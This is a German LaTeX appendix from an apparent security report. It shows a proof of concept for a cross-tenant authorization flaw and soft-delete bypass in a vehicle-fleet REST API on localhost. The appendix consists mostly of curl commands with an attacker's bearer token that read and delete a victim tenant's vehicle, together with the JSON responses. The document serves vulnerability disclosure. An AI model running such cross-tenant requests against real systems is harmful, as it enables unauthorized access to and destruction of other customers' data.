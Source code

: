 \begin{appendix}
\begin{lstlisting}[style=custombash, caption={Registrierung des Angreifer-Mandanten, Übernahme der Opfer-UUID in \texttt{VID} und unautorisierter GET auf das Fahrzeug des Opfers.}]
$ curl -s -X GET http://localhost:8000/api/v1/vehicles/$VID \
  -H "Authorization: Bearer $TOKEN" \
  | python3 -m json.tool
{
    "deleted_at": null,
    "created_at": "2026-04-29T07:34:48.031902Z",
    "updated_at": "2026-04-29T07:34:48.031902Z",
    "registration_plate": "OPFER-001",
    "vin": null,
    "make": "Toyota",
    "model": "Camry",
    "year": 1992,
    "type": "suv",
    "fuel_type": "gasoline",
    "status": "active",
    "id": "2dbd498a-e79b-4f71-8d0a-b1e785d7a718",
    "organization_id": "6f2f1146-17b3-4b0f-853f-4827c5ee3421"
}
\end{lstlisting}

    \subsubsection*{Angreifer löscht das Fahrzeug und liest es erneut (Soft-Delete-Bypass)}

\begin{lstlisting}[style=custombash, caption={Cross-Tenant-DELETE und anschliessender GET. Der Server antwortet auf den GET nach dem Soft-Delete weiter mit 200 OK und liefert den Datensatz inklusive gesetztem \texttt{deleted\_at}-Feld aus.}]
$ curl -s -X DELETE http://localhost:8000/api/v1/vehicles/$VID \
  -H "Authorization: Bearer $TOKEN" \
  -w "\nHTTP-Status: %{http_code}\n"

HTTP-Status: 204

$ curl -s -X GET http://localhost:8000/api/v1/vehicles/$VID \
  -H "Authorization: Bearer $TOKEN" \
  | python3 -m json.tool
{
    "deleted_at": "2026-04-29T07:40:23.627920Z",
    "created_at": "2026-04-29T07:34:48.031902Z",
    "updated_at": "2026-04-29T07:40:23.620890Z",
    "registration_plate": "OPFER-001",
    "make": "Toyota",
    "model": "Camry",
    "year": 1992,
    "type": "suv",
    "fuel_type": "gasoline",
    "status": "active",
    "id": "2dbd498a-e79b-4f71-8d0a-b1e785d7a718",
    "organization_id": "6f2f1146-17b3-4b0f-853f-4827c5ee3421"
}
\end{lstlisting}

    \subsection{Ergänzende Kontrollabfragen}
    \label{app:curl-commands}

    Der kompakte Copy-Paste-Ablauf (Registrierung, Fahrzeug-Anlage,
    Cross-Tenant-GET, Soft-Delete-Bypass) findet sich direkt im
    Proof-of-Concept in Abschnitt~\ref{sec:poc}. Die folgenden beiden
    Zusatzabfragen gehören nicht mehr zum Mindestnachweis der
    Schwachstellen, sind aber nützlich, um das Verhalten der betroffenen
    Endpunkte vollständig zu illustrieren.


\end{appendix}
